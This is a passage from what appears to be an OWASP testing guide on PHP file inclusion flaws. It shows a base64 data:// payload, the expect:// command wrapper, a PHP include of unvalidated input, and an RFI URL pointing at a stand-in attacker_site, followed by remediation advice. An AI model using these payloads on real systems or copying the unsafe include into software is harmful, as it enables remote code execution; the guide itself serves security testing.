 In order to test for LFI using this wrapper, the code to be executed should be base64 encoded. For example, `<?php phpinfo(); ?>` would be encoded as: `PD9waHAgcGhwaW5mbygpOyA/Pg==` and the payload would be represented as: `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`.

##### PHP Expect

This wrapper, which is not enabled by default, provides access to processes `stdio`, `stdout`, and `stderr`. Given in the format `expect://command`, the server would execute the provided command using `BASH` and return the result.

### Testing for Remote File Inclusion

Since RFI occurs when URLs passed to `include` statements are not properly sanitized, in a black-box testing approach, we should look for scripts that take filenames as parameters. Consider the following PHP example:

```php
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against an allow list), so this snippet of code is vulnerable to this type of attack. Consider the following URL:

`http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page`

In this case the remote file is going to be included and any code contained in it is going to be run by the server.

## Remediation

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible, the application can maintain an allow list of files that may be included by the page, and then use an identifier (for example, the index number) to access the selected file. Any request containing an invalid identifier should be rejected so that there is no opportunity for malicious users to manipulate the path.
Check out the [File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html) for good security practices on this topic.

## Tools

- [kadimus](https://github.com/P0cL4bs/Kadimus)
- [LFI Suite](https://github.com/D35m0nd142/LFISuite)
- [Zed Attack Proxy (ZAP)](https://www.zaproxy.org)

## References

- [Wikipedia](https://www.wikipedia.org/wiki/Local_File_Inclusion)
- [Null character](https://en.wikipedia.org/wiki/Null_character)
- [Unicode Encoding](https://owasp.org/www-community/attacks/Unicode_Encoding)
- [Double Encoding](https://owasp.org/www-community/Double_Encoding)
- [PHP Supported Protocols and Wrappers](https://www.php.net/manual/en/wrappers.php)
- [RFC 2397 - The "data" URL scheme](http://www.faqs.org/rfcs/rfc2397.html)
- ["Remote File Inclusion"](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)
- [Wikipedia: "Remote File Inclusion"](https://en.wikipedia.org/wiki/Remote_File_Inclusion)
